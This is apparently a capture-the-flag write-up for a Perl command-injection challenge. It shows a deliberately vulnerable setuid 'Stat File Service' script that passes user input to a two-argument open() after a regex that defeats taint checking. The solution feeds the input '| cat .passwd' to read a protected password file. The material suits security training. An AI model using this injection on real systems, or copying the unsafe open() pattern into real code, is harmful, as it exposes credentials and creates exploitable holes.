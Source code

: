 ## Perl - Command injection

| Author | Level | Points |
| ------ | ----- | ------ |
| Tosh | Easy | 15 |


>Bad tainting
>
> **Statement**
>
>Retrieve the password stored in .passwd.
>
>Source code :
>
>```perl
>#!/usr/bin/perl
> 
>delete @ENV{qw(IFS CDPATH ENV BASH_ENV)};
>$ENV{'PATH'}='/bin:/usr/bin';
> 
>use strict;
>use warnings;
> 
>main();
> 
>sub main {
>    my ($file, $line) = @_;
> 
>    menu();
>    prompt();
> 
>    while((my $file = <STDIN>)) {
>        chomp $file;
> 
>        process_file($file);
> 
>        prompt();
>    }
>}
> 
>sub prompt {
>    local $| = 1;
>    print ">>> ";
>}
>sub menu {
>    print "*************************\n";
>    print "* Stat File Service    *\n";
>    print "*************************\n";
>}
> 
>sub check_read_access {
>    my $f = shift;
> 
>    if(-f $f) {
>        my $filemode = (stat($f))[2];
> 
>        return ($filemode & 4);
>    }
> 
>    return 0;
>}
> 
>sub process_file {
>    my $file = shift;
>    my $line;
>    my ($line_count, $char_count, $word_count) = (0,0,0);
> 
>    $file =~ /(.+)/;
>    $file = $1;
>    if(!open(F, $file)) {
>        die "[-] Can't open $file: $!\n";
>    }
> 
> 
>    while(($line = <F>)) {
>        $line_count++;
>        $char_count += length $line;
>        $word_count += scalar(split/\W+/, $line);
>    }
> 
>    print "~~~ Statistics for \"$file\" ~~~\n";
>    print "Lines: $line_count\n";
>    print "Words: $word_count\n";
>    print "Chars: $char_count\n";
> 
>    close F;
>}
>```

#### Solution

Run `./setuid-wrapper` and see `>>>`, then enter

```
| cat .passwd
```
